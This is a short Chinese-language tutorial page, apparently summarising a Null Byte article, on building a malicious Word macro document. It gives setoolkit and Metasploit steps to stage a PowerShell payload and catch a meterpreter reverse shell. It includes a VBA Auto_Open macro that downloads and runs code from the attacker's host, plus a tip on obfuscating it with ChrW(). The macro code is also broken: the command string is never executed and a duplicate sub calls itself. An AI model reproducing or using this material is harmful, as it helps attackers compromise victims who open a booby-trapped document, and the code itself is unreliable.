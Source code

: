 ## 在Microsoft Word文档中创建和混淆病毒

`setoolkit`

`1 9 1`

`mv /root/.set/reports/powershell/x86_powershell_injection.txt /var/www/html/payload.txt`

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.103
set lport 4444
exploit
```

```visual basic
# 创建Microsoft Word文档并命名为Evil.docm
# 创建宏并插入VBA脚本
Sub Auto_Open()
    Dim exec As String
    exec = "powershell.exe""IEX ((new-object net.webclient).downloadstring('http://192.168.1.103/payload.txt'))"""
End Sub
Sub Auto_Open()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
# 注意PowerShell命令中的双引号; Visual Basic中的转义字符只是键入两次字符
```

```
# 使用ChrW() 混淆VBA脚本,允许我们键入ASCII字符值而不是实际字符本身
# 自动化程序 http://pastebin.com/bD6xEP9a
```

[原文](https://null-byte.wonderhowto.com/how-to/create-obfuscate-virus-inside-microsoft-word-document-0167780/)